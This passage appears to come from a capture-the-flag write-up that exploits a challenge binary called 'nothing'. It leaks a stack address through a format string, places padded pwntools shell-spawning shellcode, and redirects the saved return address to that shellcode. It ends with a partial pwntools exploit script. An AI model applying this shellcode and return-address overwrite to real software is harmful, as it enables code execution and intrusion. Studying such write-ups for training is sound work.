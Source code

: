 The address of our"shellcode" actually begins with 0x2438257837323125 or "$8%x721%" which happends to be the last string we sent to the binary. This is because the binary reuses the same stack address for each call. Our shellcode is partially overwritten by our input we send later in the binary.

We can add padding to the shellcode so that the bytes we overwrite is just padding and our shellcode will start after.

```python
shellcode = "A"*40+asm(shellcraft.amd64.linux.sh())
```

After adding the padding we can see that our shellcode now starts 0x28 after the address of our input.

![](https://i.imgur.com/9ItDqEg.png)

We can add that offset to the address of our input and print that line.

```python=
shellcode = leak+0x28
print "Address of shellcode:",hex(shellcode)
```

And instead of writing the address of our input to the saved rip we can write the address of our shellcode.

```python
writes = re.findall(".{2}",hex(shellcode))[1::]
```

We can now confirm that the saved rip points to our shellcode through gdb.

![](https://i.imgur.com/pLJ2vIm.png)

![](https://i.imgur.com/hMPJxA0.png)


Now we just need to trigger the shellcode to be executed by sending "q" which will return out of main and into our shellcode.

```python
io.sendlineafter("> ","q")
```

## Putting it all Together
### Local exploit
The final code to run this locally with gdb is below:
```python=
from pwn import *
import re
context.arch = "amd64"

io = process("./nothing")
g = gdb.attach(io)

shellcode = "A"*40+asm(shellcraft.amd64.linux.sh())
io.sendlineafter("> ",shellcode)

leak_payload = "%p"
io.sendlineafter("> ",leak_payload)
leak = int(io.readline().strip(),16)
print "Address of input:",hex(leak)
shellcode = leak+0x28
print "Address of shellcode:",hex(shellcode)
saved_rip = leak+0x108
print "Address of saved rip", hex(saved_rip)

writes = re.findall(".{2}",hex(shellcode))[1::]
```